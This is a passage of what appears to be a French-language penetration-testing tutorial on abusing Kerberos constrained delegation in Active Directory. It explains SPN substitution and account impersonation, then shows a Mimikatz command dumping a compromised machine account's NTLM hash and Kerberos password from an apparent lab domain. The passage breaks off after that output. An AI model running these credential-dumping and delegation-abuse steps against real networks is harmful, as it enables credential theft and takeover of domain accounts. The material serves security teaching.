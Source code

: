 ```SB``` est soit dans le champs **msDS-AllowedToDelegateTo** de ```SA```:  
Si le compte de service ```T2A4D``` faisant tourner ```SA``` a été compromis, nous pouvons générer un ```T,sa``` pour un compte arbitraire (Administrateur du domaine) pour un service autorisé (voir **msDS-AllowedToDelegateTo** ou **msds-AllowedToActOnBehalfOfOtherIdentity**).  

Les [SPNs](https://beta.hackndo.com/service-principal-name-spn/) étant interchangeables (partie non chiffrée du ticket de service), il est possible de modifier ce dernier par un autre SPN du même compte de service (ex: *CIFS/DC* au lieu de *TIME/DC*).  

<pre>
Le compte impersonifié doit pouvoir être délégué.
</pre>
Il ne doit être ni [Protected Users](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group), ni "**Account is sensitive and cannot be delegated**".  
  
# <a name="Exploitation"></a>Exploitation  

Il sera nécessaire au préalable de compiler Rubeus (depuis le repo [Rubeus](https://github.com/GhostPack/Rubeus), lancer le projet, ```Build -> Build Solution```).  

On suppose ici que la machine ```srv$``` a été préalablement compromise. On récupère ses credentials :  
```cmd
C:\tools> C:\tools\Mimikatz\x64\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 19484783 (00000000:0129506f)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/25/2020 10:06:29 AM
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : srv$
         * Domain   : WINDOMAIN
         * NTLM     : b5858035cb595dd82050f9193b220232
         * SHA1     : b7607fdc98a40ae1cfb47478b8d929139d18f6cb
        tspkg :
        wdigest :
         * Username : SRV$
         * Domain   : WINDOMAIN
         * Password : (null)
        kerberos :
         * Username : SRV$
         * Domain   : windomain.local
         * Password : HXEq%dCV$Qp0`b-:LE,zT]x%Sl&G_n8C1eP(aIymKGM-d^E;J5>$uj*0? &duWc:"$tL$KtkJuqE+t[s@fw$#YA:O$Bh<%usYq@vU5 ,i6q^JK=q9bV:Ue?Y
        ssp :
        credman :
...
```